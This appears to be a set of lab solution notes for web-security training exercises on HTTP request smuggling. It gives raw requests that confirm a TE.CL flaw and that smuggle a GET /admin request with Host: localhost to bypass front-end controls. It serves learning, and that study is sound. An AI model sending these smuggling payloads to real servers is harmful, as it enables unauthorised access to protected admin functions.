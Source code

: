 

## Lab: HTTP request smuggling, confirming a TE.CL vulnerability via differential responses


```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```


## Lab: Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability

Send the following request at first 


```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-Ignore: X
```

The request will not be successful as it is not comming from the internal 


```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 54
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
X-Ignore: X
```
